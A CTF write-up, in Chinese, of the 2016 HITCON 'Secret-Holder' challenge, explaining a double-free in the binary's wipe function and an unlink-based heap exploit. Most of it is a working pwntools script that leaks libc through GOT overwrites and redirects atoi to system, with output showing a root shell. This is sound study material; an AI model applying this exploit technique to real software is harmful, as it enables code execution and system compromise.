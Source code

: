 ```yaml
---
title: 2016 HITCON CTF Secret-Holder
date: 2016-10-30 06:15:01
tags:
- ctf
- double free
- unlink
categories:
- ctf_practice
---
```


## Challenge

[程序](https://github.com/ctfs/write-ups-2016/tree/master/hitcon-ctf-2016/pwn/secret-holder-100)的wipe功能有漏洞，可以造成double free。
<!-- more -->
```c
__int64 wipe()
{
  /*......*/
  v3 = *MK_FP(__FS__, 40LL);
  puts("Which Secret do you want to wipe?");
  puts("1. Small secret");
  puts("2. Big secret");
  puts("3. Huge secret");
  memset(&s, 0, 4uLL);
  read(0, &s, 4uLL);
  v0 = atoi(&s);
  switch ( v0 )
  {
    case 2:
      free(big_q);
      big_status = 0;
      break;
    case 3:
      free(huge_q);
      huge_status = 0;
      break;
    case 1:
      free(samll_q);
      small_status = 0;
      break;
  }
  return *MK_FP(__FS__, 40LL) ^ v3;
}
```

## Solution

按照下面步骤我们可以overlapping部分top chunk：
keep(small)-->wipe(small)-->keep(big)-->wipe(small)-->keep(small)。(because of malloc consolidates fastbins if there is a large request)
OK，现在samll chunk和部分top chunk已经被big chunk overlapping了。常规思路是往house of force()想，但是缺少条件，即malloc(size)的size不能指定任意大小。所以不行，只好放弃。当时我做这题只意识到这是一个double free，但是怎么利用就不知道了。那时堆的题做的不多，经验尚缺。
最后看wp时才知道关键在huge chunk上。第一次malloc huge chunk时是在mapping区域分配相应内存，但是free后再次malloc就会在main arean中了。真的很神奇~~~~~~最后我还是去看了下[__libc_free](https://github.com/bminor/glibc/blob/master/malloc/malloc.c#L2909)&[sysmalloc](https://github.com/bminor/glibc/blob/master/malloc/malloc.c#L2246)。
所以最后我们只需要malloc一次huge chunk，然后free，最后再malloc就可以覆盖huge chunk的头部来unlink了。但是这题没给libc，这是另一个比较麻烦的地方，我还是用本机上的libc搞一下吧。

## Exp

```python
from pwn import *

debug = 1

if debug:
    p = process('./secret-holder')
else:
    pass

size_class = {'small': '1', 'big': '2', 'huge': '3'}

libc = ELF('./libc.so')

small_secret = 0x6020B0
big_secret = 0x6020A0
free_got = 0x602018
puts_plt = 0x4006C0
read_got = 0x602040
atoi_got = 0x602070

system_off = libc.symbols['read'] - libc.symbols['system']

def keep(size):
    p.recvuntil("3. Renew secret\n")
    p.sendline("1")
    p.recvuntil("3. Huge secret\n")
    p.sendline(size_class[size])
    p.recvuntil("Tell me your secret: \n")
    p.send(size)

def wipe(size):
    p.recvuntil("3. Renew secret\n")
    p.sendline("2")
    p.recvuntil("3. Huge secret\n")
    p.sendline(size_class[size])

def renew(size, content):
    p.recvuntil("3. Renew secret\n")
    p.sendline("3")
    p.recvuntil("3. Huge secret\n")
    p.sendline(size_class[size])
    p.recvuntil("Tell me your secret: \n")
    p.send(content)

keep('small')
wipe('small')
keep('big')
wipe('small')
keep('small')
keep('huge')
wipe('huge')
keep('huge')

payload1  = p64(0) + p64(0x21) + p64(small_secret - 0x18) + p64(small_secret - 0x10)   #although it's fastbin, it's in the range of samllbin
payload1 += p64(0x20) + p64(0x61A90) 
renew('big', payload1)
wipe('huge') 
payload2 = 'a' * 8 + p64(free_got) + 'b' * 8 + p64(big_secret) # padding + big_secret + huge_secret + small_secret

renew('small', payload2)
renew('big', p64(puts_plt))
renew('small', p64(read_got)) # *free_got = puts_plt, *big_secret = read_got

wipe('big')  # puts(read_got)
data = p.recvline()
read_addr = u64(data[:6] + '\x00\x00')
print "read_addr: " + hex(read_addr)
system_addr = read_addr - system_off
print "system_addr: " + hex(system_addr)

payload3 = p64(atoi_got) + 'a'*8 + p64(big_secret) + p64(1) # big_secret + huge_secret + small_secret + big_in_use_flag
renew('small', payload3)
renew('big', p64(system_addr)) #*atoi_got = system_addr

p.recvuntil('3. Renew secret\n')
p.send('sh')

p.interactive()
```

```shell
root@kali:~/Desktop# python secret-holder.py 
[+] Starting local process './secret-holder': Done
[*] '/root/Desktop/libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
read_addr: 0x7fac66987a80
system_addr: 0x7fac668eb870
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

